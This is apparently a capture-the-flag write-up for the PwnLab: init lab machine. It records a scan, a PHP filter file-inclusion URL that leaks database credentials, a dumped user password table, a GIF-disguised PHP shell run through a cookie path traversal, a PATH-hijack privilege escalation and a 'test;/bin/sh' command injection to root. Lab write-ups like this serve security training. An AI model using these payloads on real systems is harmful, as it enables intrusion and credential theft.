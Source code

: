 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 18/december/2022

# PawnLab

----------------------------------------------------------------
# nmap scan ()
----------------------------------------------------------------
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
3306/tcp open  mysql   MySQL 5.5.47-0+deb8u1

https://book.hacktricks.xyz/pentesting-web/file-inclusion
php://filter/convert.base64-encode/resource=login
http://10.0.2.14/?page=php://filter/convert.base64-encode/resource=config

<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>

 mysql -u root -p -h 10.0.2.14 
 show databases;
use Users;
show tables;
select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |JWzXuBJJNy
| mike | U0lmZHNURW42SQ== |SIfdsTEn6I
| kane | aVN2NVltMkdSbw== |iSv5Ym2GRo
+------+------------------+

gif file header GIF89a
shell.php >shell.gif

modify cookie with burp  
decode index page to know reason of this step
http://10.0.2.14/?page=php://filter/convert.base64-encode/resource=index
../upload/f3035846cc279a1aff73b7c2c25367b9.gif
Cookie: lang=../upload/f3035846cc279a1aff73b7c2c25367b9.gif

upload execute got shell

----------------------------------------------------------------
# privilege escalation
----------------------------------------------------------------
su kane
-> ./msgmike
cat: /home/mike/msg.txt: No such file or directory

-> make own cat and run 
-> echo "/bin/bash" > cat
-> chmod +x cat
-> export PATH=/home/kane:PATH
-> /home/kane/msgmike
bash: dircolors: command not found
bash: ls: command not found

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  

you got mike shell


-> cd /home/mike
-> ls
msg2root

./msg2root
test;/bin/sh

you got root
----------------------------------------------------------------
# flag
----------------------------------------------------------------
-> cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
